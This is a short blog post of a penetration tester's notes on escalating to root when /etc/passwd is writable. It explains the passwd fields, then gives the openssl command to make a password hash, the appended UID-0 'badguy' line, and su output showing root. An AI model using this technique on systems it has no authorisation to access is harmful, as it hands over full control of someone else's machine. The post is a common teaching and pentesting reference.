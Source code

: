 ```yaml
---
layout: post
title: Hacking /etc/passwd
description: Hacking /etc/passwd
date: 2022-04-01
Last Updated: 2022-05-05
---
```

I've been crazy busy with various projects and wanted to remember this trick for `/etc/passwd` in the event you have write access to the file.  I found myself in a position where I had a low-level shell and had write access to `/etc/passwd`.  I couldn't remember having done this before and didn't have any notes on it, so here it is.

Let's assume you know the basics about what `/etc/passwd` does.  You may not remember/know what the fields are in the passwd file.  I always ask it on interview questions.

As a quick refresher we'll use this line from /etc/passwd:
```
harold:x:1001:1001:harold,,,:/home/harold:/bin/bash
   1    2  3    4       5          6            7
```
There are 7 fields separated by a ':'

|Space      |Field          |Description  |Purpose    |
|--- |--- |--- |---
|1 |harold        |Username     |Username   |
|2 |x              |Password     |Placeholder for password[^1] |
|3 |1001           |UID          |Numeric representation of username |
|4 |1001           |GID          |Numeric representation of default group |
|5 |harold,,,     |GECOS        |General info about the account[^2] |
|6 |/home/harold  |Home dir     |Location of home directory |
|7 |/bin/bash      |Shell        |Default shell |

Now, we have this `/etc/passwd` file that we can write to, but still can't set a password with the passwd command or edit the `/etc/shadow` file.  Enter openssl.  With openssl we can create an encrypted password and put it right into the passwd file.

First we create the hash
```
bash-4.2$ openssl passwd -1 -salt badguy pass123
$1$badguy$zgKg42t10j4SEDtASy6ML1
```
Next we append the "new user" into the password file along with root's UID
```
badguy:$1$badguy$zgKg42t10j4SEDtASy6ML1:0:0:root:/root:/bin/bash
```
Finally, we can escalate
```
bash-4.2$ su - badguy
Password:
Last login: Fri Dec  6 16:10:18 EST 2019 from 192.168.1.5 on pts/0
[root@server ~]# whoami
root
```

[^1]: Modern Unix/Linux operating systems keep the encrypted password in `/etc/shadow.`  The 'x' indicates there is a password set, and is encrypted in `/etc/shadow`.  Usually accounts with an * (asterisk) in password field don't have a password e.g: disabled for login.

[^2]: The GECOS field is typically used to record general information about the account or its user(s) such as their real name and phone number. Historically, some early Unix systems at Bell Labs used GECOS machines for print spooling and various other services, so this field was added to carry information on a user's GECOS identity.
